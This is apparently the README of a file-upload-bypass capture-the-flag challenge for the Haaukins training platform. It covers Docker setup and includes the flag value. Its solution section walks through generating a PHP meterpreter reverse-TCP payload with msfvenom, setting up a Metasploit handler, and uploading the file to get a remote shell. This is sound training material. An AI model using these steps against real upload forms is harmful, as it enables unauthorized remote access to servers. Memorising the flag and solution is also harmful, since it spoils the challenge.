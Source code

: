 # haaukins_upload_bypass

**Description**

This upload bypass CTF challenge was created for Haaukins platform. The main goal of the project is finding the vulnerabilities of the file upload systems and exploit the vulnerability by using Metasploit Framework. In this project, an Apache2 server created and website is published on the server. PHP is used for back-end of the website. This application is containerized with Docker. 

**Prerequisite**

Docker must be installed in your local machine to run this challenge.

**How to Run?**

1- git clone https://gitlab.com/faraklit/haaukins_upload_bypass.git

2- cd haaukins_upload_bypass/

3- docker build -t haaukins_upload_bypass .

4- docker run -d -p 80:80 -e FLAG="FLAG=I thought that I saw a pretty cat. Yes, I did I did!" haaukins_upload_bypass

5- Browse localhost:80/

**Solution**

1- Create php reverse tcp code
- msfvenom -p php/meterpreter/reverse_tcp LHOST="MACHINE IP ADDRESS" LPORT=4444 -f raw -o malware.php

2- Open msfconsole and enter following codes:
- use exploit/multi/handler
- set payload php/meterpreter/reverse_tcp
- set LHOST "MACHINE IP ADDRESS"
- exploit

3- Upload "malware.php" to the system

4- Browse to localhost/uploads

5- Click "malware.php"

6- Reverse shell must be initialized and commands can be entered

7- Traverse in the directories to find the flag!

Video link: https://www.youtube.com/watch?v=R2pFNEi_3KA